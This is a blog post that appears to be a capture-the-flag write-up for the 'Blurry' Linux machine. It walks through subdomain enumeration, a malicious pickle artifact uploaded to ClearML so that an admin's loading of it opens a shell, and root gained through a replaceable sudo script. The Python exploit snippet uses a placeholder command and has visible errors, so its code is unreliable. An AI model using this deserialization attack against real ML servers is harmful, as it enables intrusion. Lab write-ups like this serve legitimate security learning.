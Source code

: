 ```yaml
---
layout: post
title: "Blurry-Linux-Medium"
date:   2025-07-12 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/344998b24aad421410cabf912d3dc3af.webp
---
```


# Blurry

# 1. Enumeration
<br/><br/>
As we used to, we start enumerating ports
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled.png' | relative_url }})
<br/><br/>
There are just two port open, the 80 port is redirecting to a subdomain, which indicates that probably there are other subdomains running on it.
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_1.png' | relative_url }})
<br/><br/>
We can register ourselves and follow the instructions to authenticate us, and prepare crearml to execute tasks through it.
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_2.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_3.png' | relative_url }})
<br/><br/>
Let’s search for another subdomains
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_4.png' | relative_url }})
<br/><br/>
Configure clearml to authenticate using .conf file
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_5.png' | relative_url }})
<br/><br/>
There is a public chat inside of one subdomain
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_6.png' | relative_url }})
<br/><br/>
# 2. User flag
<br/><br/>
Now we have a clue, it is necessary to use review tag to make that an admin open the artifact file which is the object that have the reverse shell
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_7.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_8.png' | relative_url }})
<br/><br/>
Prepare the exploit
<br/><br/>
```python
import os
from clearml import Task
import base64
import time

task = Task.init(project_name='Black Swan', task_name='Nombree', tags=['review']. task_type=Task.TaskTypes.data_processing)

class Tricp:
	def _reduce_(self):
		cmd = 'rev shell'
		return os.system, (cmd,)
		
rng_name = base64.b64encode(str(time.time()).encode()).decode
task.upload_artifact(name=rng_name,artifact_object=Pickle())

task.execute_remotely(queue_name='default')
```
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_9.png' | relative_url }})
<br/><br/>
Execute it and get user flag
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_10.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_11.png' | relative_url }})
<br/><br/>
# 3.Priv esc
<br/><br/>
We can see that we have sudo permission to run evaluate model, and we have permise to delete that file so just delete it and create another one performing a shell in bash using python, then run it as sudo and got the root flag
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_12.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_13.png' | relative_url }})
<br/><br/>
Machine pwned!@
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
